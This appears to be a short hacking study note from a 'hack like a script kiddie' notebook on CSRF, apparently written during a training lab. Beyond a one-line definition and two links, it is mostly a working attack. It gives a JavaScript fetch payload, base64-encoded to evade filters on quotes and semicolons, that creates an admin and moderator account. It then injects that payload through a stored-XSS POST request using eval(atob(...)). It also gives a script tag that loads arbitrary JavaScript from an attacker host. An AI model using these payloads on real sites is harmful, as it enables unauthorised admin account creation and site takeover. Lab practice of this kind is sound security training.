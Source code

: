 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/javascript/session-riding-csrf/csrf/","noteIcon":"","created":"2025-04-15T14:11:19.606-04:00"}
---
```



















https://owasp.org/www-community/attacks/csrf

https://medium.com/@alireubenstone/the-session-ride-of-your-life-1494324db06d


```
CSRF, also known as, “Session Riding”, “…is an attack vector that tricks a web browser into executing an unwanted action in an application to which a user is logged in”.


```

Exploitation -- CSRF to create a new user  
## Create new user  
### Info  
We are dealing with the length limitation in a DB and additional filter on ' , " , \n , and ;  
Payload will be kept to a minimum, and encoded.  
```
Note: #<script src=http://<ATTACKER_IP>/xss.js></script> would allow us to bypass these limitations completely and load  
any arbitrary JS.  
We are using a small unhosted payload isntead to not deal with CORS (if present) and demonstrate additional filter bypass.  
```
The user will be created with a randomized password. Password reset mechanism will have to be subverted.  
### Payload  
```javascript
a = 'fetch("/admin/users/create",{method:"post",headers:{"Content-Type":"application/x-www-form-  
urlencoded"},body:"name=offsec&email=hi@fluff.me&=isAdmin=true&isMod=true"});'  
btoa(a)  

'ZmV0Y2goIi9hZG1pbi91c2Vycy9jcmVhdGUiLHttZXRob2Q6InBvc3QiLGhlYWRlcnM6eyJDb250ZW50LVR5cGUiOiJhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQifSxib2R5OiJuYW1lPW9mZnNlYyZlbWFpbD1oaUBmbHVmZi5tZSY9aXNBZG1pbj10cnVlJmlzTW9kPXRydWUifSk7'  
```
Shell (bash)  
```
POST /question HTTP/1.1  
Host: answers  
Content-Length: 290  
Content-Type: application/x-www-form-urlencoded  
title=test&description=#<script>eval(atob(`ZmV0Y2goIi9hZG1pbi91c2Vycy9jcmVhdGUiLHttZXRob2Q6InBvc3QiLGhlYWRlcnM6eyJDb250ZW50LVR5cGUiOiJhcHBsaWNhdGlvbi94LXd3dy1mb3JtLXVybGVuY29kZWQifSxib2R5OiJuYW1lPW9mZnNlYyZlbWFpbD1oaUBmbHVmZi5tZSY9aXNBZG1pbj10cnVlJmlzTW9kPXRydWUifSk7`))</script>&category=3
```